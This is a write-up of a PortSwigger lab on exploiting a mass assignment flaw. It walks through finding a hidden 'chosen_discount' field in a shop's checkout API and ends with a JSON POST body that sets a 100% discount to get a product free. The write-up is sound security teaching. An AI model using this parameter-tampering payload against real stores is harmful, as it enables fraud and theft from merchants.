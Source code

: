 # Exploiting a mass assignment vulnerability | May 10, 2024

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability), you'll learn: Exploiting a mass assignment vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164125.png)

In here, we can purchase some products.

Let's login as user `wiener`!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164225.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164232.png)

After playing around at the web application, an API endpoint can be discovered.

First, go to a product's detail page by clicking the "View details" button:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164639.png)

Then, add the product into our cart:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164736.png)

Next, go to our cart:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164757.png)

In here, we can view the page source by hitting Ctrl + U, and we should see the following HTML elements:

```html
[...]
<script type='text/javascript'>
    const getApiEndpoint = () => '/api/checkout';
    const buildProductRow = (id, name, price, quantity) => `        <tr>
<td>
    <a href=/product?productId=${encodeURIComponent(id)}>${name}</a>
</td>
<td>${price}</td>
<td>
    <form action=/cart method=POST style='display: inline'>
        <input required type=hidden name=productId value=${encodeURIComponent(id)}>
        <input required type=hidden name=quantity value=-1>
        <input required type=hidden name=redir value=CART>
        <button type=submit class=button style='min-width: auto'>-</button>
    </form>
    ${quantity}
    <form action=/cart method=POST style='display: inline'>
        <input required type=hidden name=productId value=${encodeURIComponent(id)}>
        <input required type=hidden name=quantity value=1>
        <input required type=hidden name=redir value=CART>
        <button type=submit class=button style='min-width: auto'>+</button>
    </form>
</td>
<td>
    <form action=/cart method=POST style='display: inline'>
        <input required type=hidden name=productId value=${encodeURIComponent(id)}>
        <input required type=hidden name=quantity value=-${quantity}>
        <input required type=hidden name=redir value=CART>
        <button type=submit class=button style='min-width: auto'>Remove</button>
    </form>
</td>
</tr>
        `;
</script>
<script type='text/javascript' src='/resources/js/api/checkout.js'></script>
[...]
```

**In the inline JavaScript code, we can see that an API endpoint is at `/api/checkout`:**
```javascript
const getApiEndpoint = () => '/api/checkout';
```

**In the loaded JavaScript file at `/resources/js/api/checkout.js`, we can see the API endpoint has 2 methods, `GET` and `POST`:**
```javascript
[...]
const doLoadCart = () => {
    fetch(
        getApiEndpoint(),
        {
            method: 'GET'
        }
    )
        .then(res => res.json())
        .then(order => { cachedOrder = getProductIdsAndQuantitiesFromOrder(order); loadOrder(order); });
}

const doCheckout = (event) => {
    event.preventDefault();

    if (cachedOrder == null) {
        throw new Error("No cached order found!");
    }

    fetch(
        getApiEndpoint(),
        {
            method: 'POST',
            body: JSON.stringify(cachedOrder)
        }
    )
        .then(res => res.headers.get("Location"))
        .then(loc => window.location = loc);
};

window.onload = () => {
    doLoadCart();
}
```

When the `window` JavaScript object is loaded, it'll get the user's cart details.

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510165751.png)

**We can also see the GET request to `/api/checkout`'s respond when we go to our cart, which has this JSON data:**
```json
{
    "chosen_discount":
    {
        "percentage": 0
    },
    "chosen_products":
    [
        {
            "product_id": "1",
            "name": "Lightweight \"l33t\" Leather Jacket",
            "quantity": 1,
            "item_price": 133700
        }
    ]
}
```

In the above JSON data, we can see there's a **`chosen_discount` parameter**. In our cart page, it didn't show that to us:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510170321.png)

**Also, when we trying to place an order, it sends this POST request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510171201.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510171215.png)

As you can see, there's no **`chosen_discount` parameter** when we clicked the "Place order" button.

With the above information, we know that there's an API endpoint at `/api/checkout`. We can try to access the base path of the API endpoint (`/api/`) to get the documentation of this API:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510170446.png)

As expected, it has 1 API endpoint with 2 methods.

In the GET method, it return the entire `Order` object:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510170839.png)

In the POST method, **we can also provide the entire `Order` object**??

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510170915.png)

## Exploitation

Hmm... Maybe we can **apply a non-existence discount via exploiting the mass assignment vulnerability**?

Mass assignment (also known as auto-binding) can inadvertently create hidden parameters. It occurs when software frameworks automatically bind request parameters to fields on an internal object. Mass assignment may therefore result in the application supporting parameters that were never intended to be processed by the developer.

**Armed with the above information, we can construct the following JSON data for the place order POST request:**
```json
{
    "chosen_discount":
    {
        "percentage": 100
    },
    "chosen_products":
    [
        {
            "product_id": "1",
            "quantity": 1
        }
    ]
}
```

By doing so, we apply our non-existence 100% off discount on the product, thus the product is free buy!

**Let's send this data to the API endpoint `/api/checkout` with POST method!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510171636.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510171643.png)

Nice! We bought the product for free!

## Conclusion

What we've learned:

1. Exploiting a mass assignment vulnerability